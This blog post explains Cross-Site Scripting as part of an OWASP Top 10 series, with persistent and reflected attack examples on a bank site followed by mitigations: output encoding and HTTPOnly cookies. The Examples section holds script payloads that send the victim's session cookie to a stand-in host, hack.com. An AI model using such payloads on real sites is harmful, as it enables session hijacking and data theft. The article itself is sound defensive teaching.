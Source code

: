 ```yaml
---
authors:
- Philippe Cery
categories:
- OWASP
- Sécurité
- Web
date: 2013-10-28T08:57:07.000Z
title: "OWASP Top 10 - A3 Cross Site Scripting (XSS)"
image: 
---
```


## Description

Cross-Site Scripting is a specific consequence of an injection attack. The goal is to make a web browser execute arbitrary scripting code (Javascript, ActionScript, ActiveX…) usually to steal personal information.

## Examples

### Persistent XSS attack

The attacker’s bank website proposes a messaging service to communicate with the clerk.
 The attacker posts the following message:
```language-html
Happy New Year!
 <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once connected on the bank’s website with its special account, the bank clerk consults its new messages. When he opens the suspicious message, he will see the “Happy New Year!” greetings. The second line of the message will not be shown but interpreted by his browser which will silently send his session ID to *hack.com*. Then the attacker will be able to hijack the clerk’s session on the bank’s website to have access to sensitive information on other clients…

### Non-persistent XSS attack

The attacker sends to the clerk an email asking him to consult its account with the following direct link to the website:
```language-html
https://www.mybank.com/details?iban=<script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once authenticated with its own account, the clerk tries to display the account page using the provided link but obviously the bank could not find the requested IBAN and displays an error page to the clerk:
```language-html
IBAN not found: <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Of course, the clerk can only see the beginning of the message “`IBAN not found: `“. The javascript snippet is interpreted by the clerk’s browser and silently send the clerk’s session ID to *hack.com*.

## Mitigations

### Protection against injection attack

If your web application is not protected against [injection](http://blog.ippon.fr/2013/10/11/owasp-top-10-a1/ "OWASP Top 10 - A1 Injection") attacks, it is definitely vulnerable to XSS attacks. When possible, validate untrusted input before usage and storage.

### Output encoding

Sometimes, it is difficult to have an exhaustive white-list of allowed characters when the input is a free text. In theses cases, it is important to canonicalize the input data before storage then encode output data so that special characters are not misinterpreted by the browser. If you don’t canonicalize the input data before storage, encoded input data will be re-encoded.
 E.g. < and > must be converted into `<` and `>` in HTML pages or the string between these 2 characters could be interpreted by the browser as an HTML tag. In the examples above, after encoding, `<script>` becomes `<script>` and won’t be interpreted as a script tag by the browser but displayed as text. Thus the suspicious javascript code won’t be executed.
 Of course, untrusted code can be inserted anywhere in the web page. [ESAPI](https://www.owasp.org/index.php/Category:OWASP_Enterprise_Security_API "ESAPI")‘s Encoder can be used to encode characters depending on where you need to insert untrusted code. Below are some examples:

```language-java
Encoder encoder = ESAPI.encoder();
String rawOutput = "<script>alert("hello");</script>";
System.out.println("Encoded for HTML : "+encoder.encodeForHTML(rawOutput));
System.out.println("Encoded for CSS : "+encoder.encodeForCSS(rawOutput));
System.out.println("Encoded for Javascript : "+encoder.encodeForJavaScript(rawOutput));
System.out.println("Encoded for URL : "+encoder.encodeForURL(rawOutput));
```

Console output:

```language-html
<em>Encoded for HTML : <script>alert("hello");</script>
Encoded for CSS : 3c script3e alert28 22 hello22 29 3b 3c 2f script3e
Encoded for Javascript : x3Cscriptx3Ealertx28x22hellox22x29x3Bx3Cx2Fscriptx3E
Encoded for URL : %3Cscript%3Ealert%28%22hello%22%29%3B%3C%2Fscript%3E</em>
```

Other open-source third-parties exist to encode text before output. Have a look on [Apache Commons-Lang3 API](http://commons.apache.org/proper/commons-lang/javadocs/api-3.1/org/apache/commons/lang3/StringEscapeUtils.html "Apache Commons-Lang3"). It is less strict on encoding but it is acceptable for a simple web application.

`System.out.println("Encoded for HTML : "+StringEscapeUtils.escapeHtml4(rawOutput));`

Console output:

`<em>Encoded for HTML : <script>alert("hello");</script></em>`

### HTTPOnly cookie flag

The examples above show teo different ways to steal a session ID. As discussed in the previous article, if an attacker steals the session ID of an user authenticated on a website, he can impersonate the victim on that website.

Although only the web browser needs to know the session ID, anyone (including a script) could read the value. That’s why Microsoft IE6 developers decided to implement the HTTPOnly flag. When this flag is set (and if the browser supports it), the XSS attack above won’t be able to steal the session ID.

If your application is Servlet 3.0 compliant, you can configure it by adding the following in your `web.xml`:
```language-xml
<session-config>
  <cookie-config>
    <http-only>true</http-only>
  </cookie-config>
</session-config>
```

Otherwise, you will need to configure your server. For example, if you use Apache Tomcat 6, you can set the HTTPOnly flag on cookies by adding the attribute `useHttpOnly="true"` in your `context.xml`:
```language-xml
<Context ... <em>useHttpOnly="true"</em>>
</Context>```

To see all articles related to OWASP Top 10, follow the tag [#owasp](http://blog.ippon.fr/tag/owasp/ "OWASP Top 10")
